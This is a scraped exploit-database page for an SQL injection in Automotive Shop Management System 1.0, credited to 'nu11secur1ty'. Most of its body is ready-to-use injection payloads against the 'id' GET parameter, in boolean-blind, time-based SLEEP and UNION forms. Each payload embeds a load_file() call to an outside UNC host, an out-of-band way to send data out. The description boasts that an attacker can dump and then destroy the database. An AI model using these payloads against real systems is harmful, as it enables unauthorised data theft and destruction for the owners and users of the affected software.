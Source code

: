 ```yaml
---
title: Automotive Shop Management System 1.0 SQL Injection exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:170086&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2022-12-06
fetch_date: 2025-10-04T00:32:26.323666
---
```


# Automotive Shop Management System 1.0 SQL Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Automotive Shop Management System 1.0 SQL Injection

2022-12-05 | CVSS 0.5

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:170086
## Title: ASMS - PHP (by: oretnom23 ) v1.0 SQLi
## Author: nu11secur1ty
## Date: 12.03.2022
## Vendor: https://github.com/oretnom23,
https://www.sourcecodester.com/users/tips23
## Software: https://www.sourcecodester.com/download-code?nid=15312&title=Automotive+Shop+Management+System+in+PHP%2FOOP+Free+Source+Code
## Reference: https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/oretnom23/2022/ASMS-1.0

## Description:
The `id` parameter appears to be vulnerable to SQL injection attacks.
The attacker can dump all database information without any problems,
and then he can destroy this system, it is depending
from the scenario.

## STATUS: Critically awful

[+] Payload:

```MySQL
---
Parameter: id (GET)
Type: boolean-based blind
Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
Payload: id=7'+(select
load_file('\\\\q3ui0l0datyx3tg6cov4tj0tpkvdj69u0xoobez3.stupid.com\\aze'))+''
OR NOT 9828=9828 AND 'NWsG'='NWsG

Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: id=7'+(select
load_file('\\\\q3ui0l0datyx3tg6cov4tj0tpkvdj69u0xoobez3.stupid.com\\aze'))+''
AND (SELECT 9682 FROM (SELECT(SLEEP(5)))Oifb) AND 'zARc'='zARc

Type: UNION query
Title: MySQL UNION query (NULL) - 8 columns
Payload: id=7'+(select
load_file('\\\\q3ui0l0datyx3tg6cov4tj0tpkvdj69u0xoobez3.stupid.com\\aze'))+''
UNION ALL SELECT
NULL,CONCAT(0x7176626271,0x71504455436c68624e7878795354674d76627a4b4164756a4c46537651584b67584d744963504b5a,0x716a6b7171),NULL,NULL,NULL,NULL,NULL,NULL,NULL#
---
```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/oretnom23/2022/ASMS-1.0)

## Proof and Exploit:
[href](https://streamable.com/c5v75u)

## Time spent
`00:27:00`

## Time attack
`00:01:57`
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)
